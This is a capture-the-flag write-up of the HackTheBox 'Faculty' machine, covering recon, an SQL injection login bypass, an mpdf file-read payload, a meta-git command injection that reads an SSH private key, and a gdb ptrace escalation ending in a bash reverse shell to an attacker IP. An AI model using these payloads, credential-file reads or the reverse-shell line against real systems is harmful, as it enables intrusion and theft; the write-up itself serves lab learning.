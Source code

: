 ```yaml
---
title: "Faculty Machine Writeup"
classes: wide
header:
  teaser: /assets/images/hackthebox/Faculty.png
ribbon: red
description: "Faculty is medium machine"
categories:
  - HackTheBox
toc: false
---
```


<img src="/assets/images/hackthebox/Faculty.png" style="zoom:50%;" />

## Recon

First, let's start with nmap port scanning.

![](/assets/images/hackthebox/nmap-results.png)

We can see that port 80 is open so let's check the running web service.

![](/assets/images/hackthebox/Website.png)

Running gobuster against the site. it shows the following results:

![](/assets/images/hackthebox/gobuster-1.png)

This `/admin` path looks interesting, so let's run gobuster against it (this will come in handy later).

![](/assets/images/hackthebox/gobuster-2.png)

Now if we can go to the `/admin` path we can see a login page.

I tried admin/admin as the login creds but it didn't work, so I tried basic SQL injection ` admin' or 1=1 -- -` in the username field and it successfully bypassed the login page.

![](/assets/images/hackthebox/bypass-login.png)

![](/assets/images/hackthebox/administrator-page.png)

After some checks in website I found a page where I can upload a new pdf file and download a pdf file containing the list of uploaded pdfs.

![faculty-list](/assets/images/hackthebox/faculty-list.png)

When I clicked on the download pdf button, I noticed `mpdf` in the generated file url.

![](/assets/images/hackthebox/mpdf.png)

Searching for `mpdf`, it turned out to be a `PHP library which generates PDF files from UTF-8 encoded HTML`.

We can also intercept the request in burp and decode the `pdf` parameter to see the decoded HTML file ( base64 and url decode twice).

![pdf-burp](/assets/images/hackthebox/pdf-burp.png)

A quick search and I found a vulnerability for `mpdf` library (CVE-2019-1000005).

We can test that the vulnerability works using (\<img src="http://10.10.x.x/"\>) as the HTML file then encode it and replace the pdf parameter in the burp request with it.

![cyberchef](/assets/images/hackthebox/cyberchef.png)

nc returns a response, NOICE!

![](/assets/images/hackthebox/test-vuln-2.png)

## Shell as gbyolo

Now that the vulnerability is working, we can try to read different files from the server using this payload:

`<annotation file=\"/etc/passwd\" content=\"/etc/passwd\"  icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />`

![](/assets/images/hackthebox/lfi.png)

`/etc/passwd`

<img src="/assets/images/hackthebox/passwd.png" style="zoom: 67%;" /> 

`./login.php`

![](/home/emperor10/Pictures/login.png)

Notice the included file `./db_connect.php`, let's try to read it.

![](/assets/images/hackthebox/db_connect.png)

We found a password, so I tried it with the username `gbyolo` as ssh creds.

username: `gbyolo`
password: `Co.met06aci.dly53ro.per`

![](/assets/images/hackthebox/gbyolo-user.png)

## Shell as developer

Running `sudo -l`, we can see that `gbyolo` user can run `meta-git` (a NPM package that can manage your meta repo and child git repositories) as `developer` user.

I found a [report](https://hackerone.com/reports/728040) on hackerone showing an RCE exploit for this package so I crafted this payload to read the rsa key for the `developer` user.

`sudo -u developer /usr/local/bin/meta-git clone 'test||cat /home/developer/.ssh/id_rsa' `.

![](/assets/images/hackthebox/developer-id_rsa.png)

> Remember to change the permissions of the `id_rsa` file to 600

Now we can ssh into box with `developer` user and read `user.txt`.

![](/assets/images/hackthebox/developer-user.png)

## Shell as root

Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I found that `gdb` has `CAP_SYS_PTRACE` capability which allows it to debug any other process.

![](/assets/images/hackthebox/gdb.png)

So let's search for a python process running as `root` user to be able to run a system command using python's `system()` function:

`ps aux | grep "^root.*python3" | awk '{print $2}'`

Found one, now attach gdb to it.

`gdb -p $PID`

![gdb](/assets/images/hackthebox/gdb-exploit-1.png)

Finally run a nc listener on our side and call `system()` function to get a reverse shell.

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'")` 

![gdb](/assets/images/hackthebox/gdb-exploit-2.png)

![gdb](/assets/images/hackthebox/root.png)